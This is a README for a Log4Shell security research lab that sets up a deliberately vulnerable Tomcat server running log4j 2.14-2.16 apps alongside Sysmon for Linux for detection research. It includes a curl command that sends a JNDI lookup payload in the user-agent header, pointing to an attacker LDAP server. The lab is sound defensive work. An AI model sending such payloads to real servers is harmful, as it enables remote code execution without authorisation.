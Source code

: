 # Victim Server

There are several lab environments being shared in the Infosec community that are helping security researchers to test and learn more about `Log4Shell`.
However, most of them use docker containers to not only deploy the vulnerable application, but also containerize the execution of code.
From a Linux perspective, this does not help while using tools such as "[Sysmon for Linux](https://github.com/Sysinternals/SysmonForLinux)" since it cannot be installed in containers yet.
I wanted to put together a research lab where I could replicate a basic real scenario with a vulnerable Web application and Sysmon for Linux running.

## Setup Resources

* [Tomcat v8.5.3](https://tomcat.apache.org/)
* Java Libraries:
    * [javax.servlet-api v4.0.1](https://mvnrepository.com/artifact/javax.servlet/javax.servlet-api/4.0.1)
    * log4j-core ([2.14](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.14.0), [2.15](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.15.0), [2.16](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.16.0))
    * log4j-api ([2.14](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api/2.14.0), [2.15](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api/2.15.0), [2.16](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api/2.16.0))
* [Sysmon for Linux](https://github.com/Sysinternals/SysmonForLinux)

## Tomcat Server Setup (Linux)

SSH to your Linux VM and git clone this projet:

```bash
sudo su

git clone https://github.com/Cyb3rWard0g/log4jshell-lab
```
run the bash script `Install-Tomcat.sh` to install and set up a [Tomcat](https://tomcat.apache.org/) server:

```Bash
cd log4jshell-lab/victim/tomcat
chmod +x Install-Tomcat.sh

sh Install-Tomcat.sh
```

Check if the `Tomcat` service is running properly.

```
service tomcat status
```

## Prepare Vulnerable Applications

### Install Docker

We are going to use a Docker image to compile our vulnerable applications. You can use this script to install the latest Docker app in your Linux VM.

```bash
wget https://raw.githubusercontent.com/OTRF/Blacksmith/master/resources/scripts/bash/Install-Docker.sh
chmod +x Install-Docker.sh

./Install-Docker.sh
```

### Compile Applications

We need to add vulnerable applications to our Tomcat server. This project comes with a few vulnerable java applications.
* [2.14.0](vuln-apps/2.14.0)
* [2.15.0](vuln-apps/2.15.0)
* [2.16.0](vuln-apps/2.16.0)

We need to compile our applications and create `.war` files to host the vulnerable aplications in our Tomcat server under `/opt/tomcat/webapps`.
The bash script `Compile-Apps.sh` compiles applications and copies `.war` files to `/opt/tomcat/webapps`:

```bash
cd log4jshell-lab/victim/vuln-apps/
chmod +x Compile-Apps.sh

sh Compile-Apps.sh
```

### Restart Tomcat Service

```Bash
service tomcat stop
service tomcat start
```

## Access Vulnerable Applications

Each application (`2.14.0`, `2.15.0`, `2.16.0`) has two modes:
* Browser - Login Form: `127.0.0.1:8080/Log4j-2.1*.0-SNAPSHOT/`
* API - GET Request: `127.0.0.1:8080/Log4j-2.1*.0-SNAPSHOT/api`

### Browser Mode
* If your Linux VM has a GUI, you can simply browse to `127.0.0.1:8080/Log4j-2.1*.0-SNAPSHOT/`.
* If your Linux VM does not have a GUI and you can only use the terminal, you can SSH tunnel your access to your vulnerable applications. Simply run the following commands in a new terminal.

```bash
ssh -L 8080:127.0.0.1:8080 wardog@[Public-IP-Linux-VM]
```

* You must use the `email` field to pass a `JNDI lookup` string to trigger the vulnerabilities.

### API Mode
* You can also SSH to your Tomcat server and interact with the application's basic API.
* You can use `curl` to perform a `GET` request:
* You must pass the `JNDI lookup` string via the `user-agent` header of the `GET` request:

```bash
curl -X GET -H 'user-agent: ${jndi:ldap://192.168.2.6:1389/o=tomcat}' 127.0.0.1:8080/Log4j-2.*.0-SNAPSHOT/api
```

## Install Sysmon for Linux

If you want to generate some endpoint data, download the following bash script to automate the installation and configuration of [Sysmon for Linux](https://github.com/Sysinternals/SysmonForLinux):

```bash
wget https://raw.githubusercontent.com/OTRF/Blacksmith/master/resources/scripts/bash/Install-Sysmon-For-Linux.sh
chmod +x Install-Sysmon-For-Linux.sh

sh Install-Sysmon-For-Linux.sh --config https://raw.githubusercontent.com/OTRF/Blacksmith/master/resources/configs/sysmon/linux/sysmon.xml
```

## Exploiting Vulnerabilities

* Set up [Attacker server - Rogue JNDI](../attacker/README.md)
* Depending on which CVE you want to test, use the following research notes:
    * [CVE-2021-44228 Simulation](../research-notes/2021-12-11_01-CVE-2021-44228-simulation.md)
    * [CVE-2021-45046 Simulation](../research-notes/2022-01-03_01-CVE-2021-45046-simulation.md)

## Reference
* https://linuxize.com/post/how-to-install-tomcat-8-5-on-ubuntu-18-04/
* https://www.digitalocean.com/community/tutorials/install-tomcat-9-ubuntu-1804
* https://github.com/Sysinternals/SysmonForLinux